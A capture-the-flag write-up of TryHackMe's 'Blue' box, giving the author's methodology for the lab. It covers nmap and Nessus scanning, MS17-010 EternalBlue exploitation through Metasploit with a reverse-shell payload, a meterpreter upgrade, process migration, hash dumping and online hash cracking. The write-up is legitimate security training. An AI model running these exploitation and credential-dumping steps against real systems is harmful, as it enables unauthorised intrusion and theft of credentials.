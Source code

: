 ## TryHackMe - (Eternal)Blue Methodology
> Completed 18th March 2022, Revisited 12th May 2022.

This is the attack methodology I used for TryHackMe's Blue box.
This box is a step back from Blueprint in terms of objective progression, however I found it to be a good lesson in fundamentals.

>Edit: On my second attempt at this box I wanted to find the vulnerability via nmap.

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Nessus
- Metasploit.

---
### Methodology
#### Objectives/Flags
1. Flag1, This flag can be found at the system root.
2. Flag2, This flag can be found at the location where passwords are stored within Windows.
3. Flag3, this flag can be found in an excellent location to loot.

---
#### Reconnaissance
First I started by running an nmap scan on the target. It was disclosed that ICMP was not going to work so I added in the extra `-Pn` into the options.
```bash
nmap -T4 -Pn <TargetIP>
```
```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
```
With this portscan I can see that there are several Windows services running on open ports. I figured this was a great time to employ a vulnerability scanner to see what more I could find.
I decided to try Nessus which is a well known vuln. scanner. Once downloading the installation file to my machine and registering for a license...
```bash
sudo apt install -f ./<Nessus.deb>
  service nessusd start
     https://kali:8834/
```
Once Nessus was up and running I set the Target and set it loose. A number of vulnerabilities were flagged and one stood out the most which I took to be relevant to the box.
```
port445 	MS17-010: Security Update for Microsoft Windows SMB Server (4013389) (ETERNALBLUE) (ETERNALCHAMPION) (ETERNALROMANCE) (ETERNALSYNERGY) (WannaCry) (EternalRocks) (Petya) (uncredentialed check)
```

![](/TryHackMe/Blue(Eternal)/images/Blue_001.jpg)

>Edit: Another way this could have been discovered is through the use of nmap's script engine `nmap -T4 -Pn <Target-IP> --script=default,vuln`

![](/TryHackMe/Blue(Eternal)/images/Blue_002.jpg)

#### Weaponization 
N/A

#### Delivery
N/A

#### Exploitation
The box walkthrough mentioned that it was time to use Metasploit which I've never used before. This required a bit of crash-coursing on google to understand the basic usage and commands. After booting it up I searched for the vulnerability code `ms17-010` and designated the local and remote hosts. I had additionally specified the port that was reported through Nessus but I don't know if this was needed.
```bash
metasploit
  search ms17-010
    exploit/windows/smb/ms17_010_eternalblue
      use [0] (exploit/windows/smb/ms17_010_eternalblue)
      set rhost <TargetIP>
      set lhost <LocalIP>
      set lport 445
```
The following option was reccomended by the box's objective guide and I do not have a clear idea of what is does.
```bash
      set payload windows/x64/shell/reverse_tcp 
      run
```
Success, I've now got shell access to the host. From here I was ready to start going for the flags, however the box's objective guide would walk me through upgrading the type of shell access I had to the machine. First, I used ```Ctrl-Z``` to background the process and then worked to upgrade the session.
While still under the ms17-010 exploit I searched for the upgrade.
```bash
search shell_to_meterpreter
  use post/multi/manage/shell_to_meterpreter
sessions -l (used to display current sessions)
  set sessions 1
  run
```
A new session should spawn which I opened with `sessions 2`.

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
From here I verified the identity.
```bash
getsystem
  Already running as SYSTEM
getuid
    NT AUTHORITY\SYSTEM 
```
An interesting step which the box's objective walkthrough made me take was to migrate the process ID (PID). I didn't know this was possible but was interesting to try. I used ```PS``` to display the processes running on the machine and was tasked to find a process which was under ```NT AUTHORITY\SYSTEM```. This had failed a few times and even crashed the session. I was not surprised by this as it was explained the migrate command was unstable.
The process that I went with:
```
692   596   services.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
```
```bash
ps 
  migrate 692
```

![](/TryHackMe/Blue(Eternal)/images/Blue_003.jpg)

According to the walkthrough Metasploit can immediately dump the Windows machine's hashes. This was so much more convenient than my attempts at extracting hashes in the Blueprint box. Instead of messing around with Hashcat however, I went straight to crackstation.
```
hashdump
  Administrator:500:<Hash>:<Hash>:::
  Guest:501:<Hash>:<Hash>:::
  Jon:1000:<Hash>:<Hash>:::
    https://crackstation.net/
      Insert <hash> -> crack
        <password>
```

After this was successful, I got to work on the flags. Considering the descriptions on their locations and my interaction with the previous box (Blueprint) I knew where these were going to be.
```
Navigated to C:\
  flag1.txt
    cat flag1.txt
		
Listing: C:\Windows\system32\config
  flag2.txt
    cat flag2.txt

Listing: C:\Users\jon\Documents
  flag3.txt
    cat flag3.txt
  ```
---
### After-action
#### What I've learned
I really enjoyed this box as I got to explore some more powerful industry tools. Fortunately, I've had experience with vulnerability scanners in the past so Nessus was really straight forward and familiar to use, navigate and understand. Metasploit, however was something I had never really used before but have heard so much about so getting my hands on with an objective was fantastic. I will definitely look to leverage its power in future exercises.

#### What I would've done differently
I would've liked to use screenshots to go along with these blog entries however the administration behind it would probably do my head in. I would however be looking into options of screen-recoding for my own sake of documentation and will allow me to better reflect on my steps.

>Edit: I am happy with my second attempt at this box. I still have some confusion as to why we close the [0] options when searching for ms17-010 exploits.
